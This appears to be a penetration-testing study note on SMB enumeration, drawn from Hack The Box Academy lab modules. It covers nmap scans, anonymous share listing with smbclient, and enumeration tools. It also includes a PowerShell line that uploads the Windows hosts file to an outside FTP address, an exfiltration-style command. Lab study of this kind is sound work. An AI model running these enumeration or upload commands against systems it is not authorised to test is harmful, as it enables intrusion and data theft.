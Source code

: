 smb
#####

Date: 2024-11-02 15:45

Status:

Description
***********

SMB (Server Message Block) Common port TCP/445 CIFS ( Common internet
file system) Unix derivative

SMB Version
**************

The version can be enumerated with:

.. code-block:: console

   sudo nmap 10.129.14.128 -sV -sC -p139,445

If more information is needed, there is a tool called
:ref:`rpcclient <rpcclient>`

Other useful tools for enumeration:

-  :ref:`smbmap`

-  :ref:`crackmapexec`

-  :ref:`enum4linux-ng`

smbclient
*********

Connecting to SMB server via the command line can be done with the
smbclient command.

Anonymous Authentication
****************************

Example: ( -L list server shares, -N for anonymous connection )

.. code-block:: console


   smbclient -N -L //10.129.14.128

Then connect to a share called notes with:

.. code-block:: console

   smbclient //10.129.14.28/notes

Simulating SMB with Python
****************************

There is a small package written in python that creates a simple SMB
service from impacket called
https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py

From the Windows powershell you can use the builtin client to send
files:

.. code-block:: console


   PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')

Enumerating SMB
****************

Example 1: Using a script scan

.. code-block:: console

   sudo nmap 10.129.14.13 -sV -sC -p139,445


Copy files from Windows
***************************

Using powershell map the share 

.. code-block:: powershell

   net use \\domain.or.ip\sharedfolder /user:[user] [pass] /persistent:no

Then copy the items 

.. code-block:: powershell

   Copy-Item -Path "C:\localfolder\file.txt" -Destination "\\domain.or.ip\sharedfolder"

Then disconnect the drive

.. code-block:: powershell

   net use \\domain.or.ip\sharedfolder /delete

References
****************
https://academy.hackthebox.com/module/24/section/160#questionsDiv
https://academy.hackthebox.com/module/112/section/1067
